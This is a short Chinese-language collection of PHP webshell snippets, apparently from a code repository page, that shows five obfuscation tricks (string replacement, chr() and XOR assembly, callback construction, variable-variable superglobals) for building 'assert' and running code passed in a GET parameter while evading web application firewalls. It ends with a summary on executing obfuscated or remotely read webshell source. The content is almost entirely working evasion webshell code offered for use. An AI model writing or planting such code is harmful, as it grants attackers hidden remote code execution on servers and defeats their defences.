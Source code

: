 <b>0x01字符串变形</b>
使用substr_replace()替换
```php
<?php
$c=substr_replace("assexx",'rt','4');
[""=>$c($_GET[_])];
?>
```

<b>0x02特殊字符干扰</b>
```php
<?php
function demo($data){
    \assert($data);
}
demo($_GET[_]);
?>
```

<b>0x03变形回调函数</b>
```php
<?php
function demo($a,$s,$s1,$e,$r,$t){
    $jg=$a.$s.$s1.$e.$r.$t;
    [array(""=>$jg($_GET[_]))];
}
demo(chr(97),chr(115),chr(115),chr(101),chr(114),chr(116))
?>
```

<b>0x04数组过狗</b>
```php
<?php
$b="assexx";
$c=str_replace("xx","rt",$b);
[""=>$c($_GET[_])];
?>
```

<b>0x05无字符马</b>
```php
<?php
$a=(chr(65)^chr(32)).(chr(83)^chr(32)).(chr(83)^chr(32)).(chr(5)^chr(96)).(chr(82)^chr(32)).(chr(84)^chr(32));
$b='_'.(chr('103')^chr(32)).(chr(101)^chr(32)).(chr(116)^chr(32));
$c=$$b;
["By pass D"=>$a($c[_])];
?>
```

总结：
加密大马源码，通过混淆或干扰的方式或在远程读取的方式来读取源码并用混淆的方式来执行大马的源码